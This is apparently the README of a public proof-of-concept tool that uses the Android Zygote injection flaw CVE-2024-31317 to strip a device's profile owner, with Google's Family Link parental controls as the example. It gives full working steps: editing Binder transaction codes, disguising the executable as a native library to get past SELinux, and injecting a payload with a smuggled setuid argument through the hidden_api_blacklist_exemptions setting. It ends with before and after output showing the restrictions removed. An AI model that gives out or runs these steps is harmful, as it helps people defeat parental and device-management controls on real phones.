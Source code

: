 # Zygotroller
## Remove profile owners/Family Link on ANY pre June 2024 Developer Mode device (Android 12+)
Zygotroller is a proof-of-concept that can remove a profile owner and associated restrictions with CVE-2024-31317's Zygote injection bug.
It requires developer mode and the latest security patch to be prior to June 2024.

Google's parental control system, Family Link, is shown as an example in this repo.

# Using
You will need a modern-ish device running a Debian based distro to compile Zygotroller. Prebuilts may or may not be available depending on the time of reading this.

Unfortunately this relies on internal parts of Android, so you need to clone the entirety of the Android source code in order to build Zygotroller. Make sure you have at least 400gb of free space, although you will likely use less.

IMPORTANT IF USING WSL: Make sure you have a LOT of swap, or WSL will crash. I personally used 32G:
```
sudo fallocate -l 32G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

Now for cloning AOSP source:
```
mkdir ~/aosp
cd ~/aosp
```
`repo init --partial-clone --no-use-superproject -b android-latest-release -u https://android.googlesource.com/platform/manifest`

`repo sync -c -j8` (might take multiple tries due to ratelimits)

`source build/envsetup.sh`

`lunch aosp_cf_arm64-v8a_only_phone-aosp_current-eng` (if you're testing this on an emulator, change arm64-v8a to x86_64)

`cd ~/aosp/external`

`git clone https://github.com/rifting/Zygotroller`

`cd Zygotroller`

Now we need to change the values in the script to our actual profile owner and opcode for clearProfileOwner.
The profile owner can either be in the Google play services "supervision" package or in Google play services itself. Run `dpm list-owners`, my result was like so:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
This gives us two pieces of information we need for Zygotroller, the package name (com.google.android.gms.supervision) and the class name (com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver).

Edit zygotroll.cpp with your preferred text editor and update these lines to your profile owner component:
```
    // Family Link profile owner
    std::string pkg = "com.google.android.gms.supervision";
    std::string cls = "com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver";
```
Now you need to find the opcode for the clearProfileOwner function of DPM. This was "91" for me, but it varies depending on the version/type of Android you're running. To get the opcode for clearProfileOwner, I used [android-svc](https://github.com/T-vK/android-svc) with the command 

`android-svc convert 'android.app.admin.IDevicePolicyManager.clearProfileOwner("dummy")'`

The number you see in the output will be the opcode for clearprofile owner, open up zygotroll.cpp again with your preferred text editor and edit the number here, to your actual opcode:
```
    // Transaction code 91 was ClearProfileOwner for my device
    dpm->transact(91, data, &reply);
```

You'll want to do the same thing with setUserRestriction:
```
// Transaction code 132 was setUserRestriction for my device
dpm->transact(132, data2, &reply2);
```

Now we need to compile zygotroller:

`mm`

This can take a LONG time on initial build, subsequent builds will take <1m on most modern machines.

Find your binary in `~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller`

Now we need to make an app that contains this binary as a "shared library" that is actually just the Zygotroller executable, so SELinux lets us execute it.
You can use my "CopyNativeLib" repo for that:

`git clone https://github.com/rifting/CopyNativeLib.git`

Then rename your Zygotroller binary to `libzygotroller.so` and put it in app/src/main/jniLibs/arm64-v8a (I'm assuming that will be the architecture of your phone). Build the APK in android studio and install to your device with `adb install`.

The family link profile owner was userid 10090 for me, AKA u0_a90
Do `dumpsys package com.google.android.gms.supervision | grep userId=`

Now take a look at payload.sh, on this line

`inject='\n--setuid=10090...`

Change the UID here from 10090 to whatever your UID from the dumpsys command was. If it's the same ID, leave it.

Look a little further on that line and you'll see 

`...echo zYg0te $(LD_LIBRARY_PATH=[path to your native lib] [path to your native lib])...`

(three dots used to show truncation)

You need to replace these with the paths to the native library you've just installed to the device. Run `pm path com.rifting.copynativelib`.
The path to the file will be the parent directory of the APK shown as the output of the command, + `lib/arm64-v8a/libzygotroller.so`. So that line will end up looking something like this:

`...echo zYg0te $(LD_LIBRARY_PATH=/data/app/~~IQhIf-M_9eLGoJ-Wd-qaCA==/com.rifting.copynativelib-a6N1upfA-_Trjh_cPCHngA==/lib/x86_64/ /data/app/~~IQhIf-M_9eLGoJ-Wd-qaCA==/com.rifting.copynativelib-a6N1upfA-_Trjh_cPCHngA==/lib/x86_64/libreal.so)...`

You're almost there! Push this file to /data/local/tmp

`adb push payload.sh /data/local/tmp`

Set permissions:

`chmod +x /data/local/tmp/payload.sh`

And finally, send its output into hidden_api_blacklist_exemptions!

`settings put global hidden_api_blacklist_exemptions "$(sh ./payload.sh)"`

Now set this to "0" to avoid a bootloop :)
`settings put global hidden_api_blacklist_exemptions 0`

You should see that the Family Link profile owner + all associated restrictions have been removed.
Go into settings and manage accounts, and remove the supervised account from the device. Congratulations!

Before:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions>
    <restrictions_user user_id="0">
      <restrictions no_factory_reset="true" no_config_location="true" no_add_clone_profile="true" no_safe_boot="true" no_config_credentials="true" no_config_date_time="true" />
    </restrictions_user>
  </device_policy_local_restrictions>
...
```

After:
```
$ dpm list-owners
no owners
emu64xa:/ $
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions />
...
```


## Special Thanks
[gburca for BinderDemo](https://github.com/gburca/BinderDemo)

[LLeaves' awesome blog about this CVE](https://blog.lleavesg.top/article/CVE-2024-31317-Zygote)
